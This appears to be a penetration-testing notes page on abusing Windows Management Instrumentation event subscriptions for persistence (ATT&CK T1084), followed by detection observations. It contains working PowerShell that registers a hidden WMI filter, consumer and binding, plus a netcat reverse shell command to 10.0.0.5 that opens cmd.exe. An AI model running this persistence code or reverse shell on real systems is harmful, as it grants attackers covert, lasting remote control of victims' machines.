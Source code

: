 ```yaml
---
description: 'Persistence, privilege escalation via WMI.'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers.

WMI Events can be used by both offenders \(persistance, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```text
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code-tabs %}
{% code-tabs-item title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the `Query` property which suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code-tabs %}
{% code-tabs-item title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-consumer.png)

{% code-tabs %}
{% code-tabs-item title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture  event filter and event consumer creations on the victim system:

![](../../.gitbook/assets/wmi-filter-consumer-creation.png)

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed data="{\"url\":\"https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/\",\"type\":\"link\",\"title\":\"PowerShell and Events: Permanent WMI Event Subscriptions\",\"description\":\"Wrapping up my series on PowerShell and Events, I will be talking about Permanent WMI Event Subscriptions and creating these using PowerShell. Mentioned in my previous article on temporary events, …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://boeprox.files.wordpress.com/2013/08/image\_thumb29.png\",\"width\":613,\"height\":98,\"aspectRatio\":0.1598694942903752}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=0SjMgnGwpq8\",\"type\":\"video\",\"title\":\"Abusing Windows Management Instrumentation \(WMI\)\",\"description\":\"by Matthew Graeber\\n\\nImagine a technology that is built into every Windows operating system going back to Windows 95, runs as System, executes arbitrary code, persists across reboots, and does not drop a single file to disk. Such a thing does exist and it\'s called Windows Management Instrumentation \(WMI\).\\n\\nWith increased scrutiny from anti-virus and \'next-gen\' host endpoints, advanced red teams and attackers already know that the introduction of binaries into a high-security environment is subject to increased scrutiny. WMI enables an attacker practicing a minimalist methodology to blend into their target environment without dropping a single utility to disk. WMI is also unlike other persistence techniques in that rather than executing a payload at a predetermined time, WMI conditionally executes code asynchronously in response to operating system events.\\n\\nThis talk will introduce WMI and demonstrate its offensive uses. We will cover what WMI is, how attackers are currently using it in the wild, how to build a full-featured backdoor, and how to detect and prevent these attacks from occurring.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/0SjMgnGwpq8/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1084\",\"type\":\"link\",\"title\":\"Windows Management Instrumentation Event Subscription - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html\",\"type\":\"link\",\"title\":\"Introduction to WMI Basics with PowerShell Part 1 \(What it is and exploring it with a GUI\)\",\"description\":\"For a while I have been posting several ways I use WMI \(Windows Management Instrumentation\) in my day to day and in consulting but have never covered the basics. Talking with other people in the security field and in the system administration worlds they seem to see WMI as this voodoo black magic th\",\"icon\":{\"type\":\"icon\",\"url\":\"https://static.squarespace.com/universal/default-favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://pentestarmoury.com/2016/07/13/151/\",\"type\":\"link\",\"title\":\"Creeping on Users with WMI Events: Introducing PowerLurk\",\"description\":\"Introduction and Intent Since watching FireEye FLARE’s ‘WhyMI So Sexy?’ at Derbycon last September, I have wanted to better understand WMI Events and apply them to offensive security op…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestarmoury.files.wordpress.com/2016/07/screen-shot-2016-07-12-at-10-14-29-pm.png?w=1200\",\"width\":1200,\"height\":581,\"aspectRatio\":0.4841666666666667}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396\",\"type\":\"link\",\"title\":\"Win32 Classes \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/\",\"type\":\"link\",\"title\":\"Tales of a Threat Hunter 2\",\"description\":\"Following the trace of WMI Backdoors & other nastiness\"}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)\",\"type\":\"link\",\"title\":\"WMI Consumers\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

